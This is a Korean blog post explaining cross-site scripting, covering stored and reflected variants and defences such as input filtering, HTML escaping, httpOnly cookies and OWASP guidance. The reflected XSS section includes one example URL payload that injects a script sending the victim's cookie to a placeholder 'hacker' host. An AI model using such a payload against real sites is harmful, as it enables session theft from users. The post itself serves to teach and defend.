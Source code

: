 ```yaml
---
layout: post
title: 'XSS(Cross-Site Scripting)이란?'
date: 2021-11-08 09:29:20 +0700
categories: [Network]
tags: [Security]
description: XSS(Cross-Site Scripting) 이란 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법입니다.
---
```


# XSS (Cross-Site Scripting)

XSS란 웹 앱에서 일어나는 취약점이다. 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법이다. 대부분 사용자가 글을 쓰고 읽을 수 있는 페이지에 많이 발생하지만, 사용자의 입력 값을 웹 페이지에 보여주는 곳에서도 발생한다.

주된 XSS 공격 중 하나는 사용자의 세션을 탈취하는 프로세스이다. 해커가 XSS 공격에 취약한 웹 사이트에 악의적인 스크립트를 삽입하고, 그 스크립트가 있는 게시글을 열람한 사용자는 악성 스크립트로 인해 본인의 쿠키가 해커에게 전송된다. 세션 ID가 포함된 쿠키를 탈취한 해커는 그 사용자의 계정으로 로그인하는 방식이다.

웹 애플리케이션 보안 연구재단(<a href="https://owasp.org/" target="_blank" rel="noopener">OWASP</a>)에 따르면

> 크로스 사이트 스크립팅(XSS)는 애플리케이션에서 브라우저로 전송하는 페이지에서 사용자가 입력하는 데이터를 검증하지 않거나, 출력시 위험 데이터를 무효화 시키지 않을 때 발생한다.

라고 정의하고 있다.

### 지속형 XSS 공격 (Persistent XSS)

<figure>
<img src="./../../images/network-xss1.png">
<figcaption>Fig 1. 지속형 XSS 공격</figcaption>
</figure>

지속형 XSS 공격은 XSS 공격 중 하나로, 지속적으로 피해를 입히는 XSS 공격이다. 해커는 웹 앱에서 XSS 취약점이 있는 곳을 파악한다. 예를 들면, HTML 요소를 조작하기 위해 DOM 메소드 중 `innerHTML`을 사용하는 경우가 있다. `innerHTML` 속성으로 DOM을 조작하는 경우, 값으로 HTML 태그를 입력하기 때문에 해커는 이 취약점을 노려 XSS 공격을 감행할 수 있다.

해커가 삽입한 스크립트는 데이터베이스에 저장되고, 저장된 악성 스크립트가 있는 게시글을 열람한 사용자는 이 악성 스크립트가 작동시키게 된다. 작동된 악성 스크립트로부터 사용자의 쿠키를 탈취할 수 있고, 또는 다른 사이트로 리다이렉트되도록 만들 수 있다. 데이터베이스에 이 악성 스크립트가 저장되어 지속적으로 공격한다고 하여 지속형 XSS 공격이라고 부른다. 또는, 데이터베이스에 저장된다하여 저장형 XSS 공격이라고도 부른다.

이 공격의 특징은 한 번의 공격으로 악성 스크립트를 삽입하여 큰 피해를 줄 수 있다는 점이다. 이 유형의 공격이 가장 많이 발생되는 곳은 게시판이며, 굳이 게시판이 아니더라도 사용자가 입력한 값이 데이터베이스에 저장이 되고, 저장된 값이 그대로 View로 보여주는 곳에 공격이 성공할 수 있다.

### 반사형 XSS 공격 (Reflected XSS)

<figure>
<img src="./../../images/network-xss2.png">
<figcaption>Fig 2. 반사형 XSS 공격</figcaption>
</figure>

반사형 XSS 공격은 사용자에게 입력받은 값을 서버에서 되돌려 주는 곳에서 발생한다. 사용자가 정보 검색을 위해 검색어를 입력하고 그에 따른 결과물을 보여주는 경우가 있다. 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 곳에 악성 스크립트가 삽입되면 서버가 사용자의 입력을 포함해 응답해줄 때 스크립트가 실행된다. 보통 반사형 XSS 공격은 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도한다. URL을 누른 사용자는 악의적인 스크립트가 실행되며 공격을 당하게 된다.

예를 들면, `GET` 요청으로 검색을 구현한 웹 앱에서 XSS 취약점을 확인한 해커는 아래와 같이 악성 스크립트를 삽입하여 요청을 날린다.

```
http://service.com?search=<script>location.href('http://hacker/cookie.php?value='+document.cookie);</script>
```

예시를 든 스크립트가 검색 인자가 되어 요청을 보낸다. 스크립트의 내용은 해커의 웹 페이지로 URL을 클릭한 사용자의 쿠키 값이 전송되도록 되어 있다. 링크를 클릭한 사용자는 자신의 의도와 상관 없이 자신의 쿠키 값을 전송하게 된다.

이는 스크립트가 서버에 저장되지 않고 즉시 스크립트를 실행한다. 이는 브라우저 자체적으로 차단하는 경우가 많아 저장형 XSS 공격에 비해 공격 성공률이 낮다.

# 대응 방안

1. 필터 사용

유저가 `input` 태그에 텍스트를 입력해야하는 경우, 이 때 필터를 적용할 수 있다. 개인이 만든 필터보다는 전문적인 보안 업체나 기업에서 만든 것이 공신력있고 편하게 사용할 수 있다. 주로 <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>가 있다.

예를 들면, 텍스트가 입력되어 서버로 요청하기 전에 검증을 하여 대응할 수 있다. `input` 태그에 만약 `<` 또는 `>` 같은 태그 문자(`<script>` 방지)를 입력했을 때 이를 필터링한다. 이 때 출력되는 값을 `<` 와 같은 태그 문자 대신 HTML 문자로 변환하여 출력한다. 이렇게 하면 `<` 문자는 `&lt;` 로 변경된다. 즉, HTML 문서는 `&lt;script&gt;` 로 인식하여 `<script>` 태그 속의 코드는 실행되지 않는다.

1. 쿠키 보안 옵션 사용

쿠키를 생성할 때 보안 옵션을 사용하여 웹 브라우저 상에서만 쓸 수 있도록 해야 한다. Node 환경에서 Express를 사용한다면, `httpOnly` 옵션을 쿠키에 지정하여 웹 브라우저상에서만 쿠키를 사용할 수 있다.

위 방안들과 별개로 웹 애플리케이션 보안 연구재단(OWASP)에서 XSS 공격을 방지하는 7계명을 발표했다.

### XSS 공격 방지 7계명

0. 허용된 위치가 아닌 곳에 신뢰할 수 없는 데이터가 들어가는 것을 허용하지 않는다.
1. 신뢰할 수 없는 데이터는 검증을 해야 한다.
2. HTML 속성에 신뢰할 수 없는 데이터가 들어갈 수 없도록 해야 한다.
3. 자바스크립트에 신뢰할 수 없는 값이 들어갈 수 없도록 해야 한다.
4. CSS의 모든 신뢰할 수 없는 값에 대해 검증해야 한다.
5. URL 파라미터에 신뢰할 수 없는 값이 있는지 검증해야 한다.
6. HTML 코드를 전체적으로 한 번 더 검증해야 한다.

### Reference

- <a href="https://owasp.org/" target="_blank" rel="noopener">웹 애플리케이션 보안 연구재단(OWASP)</a>
- <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>
